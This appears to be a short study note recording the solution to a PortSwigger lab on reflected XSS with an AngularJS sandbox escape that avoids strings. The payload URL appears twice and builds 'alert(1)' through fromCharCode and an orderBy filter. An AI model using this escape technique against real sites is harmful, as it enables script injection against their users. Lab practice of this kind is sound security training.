 
**Reflected XSS with AngularJS sandbox escape without strings**



`https://YOUR-LAB-ID.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1`

From <https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-without-strings> 

```
?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```


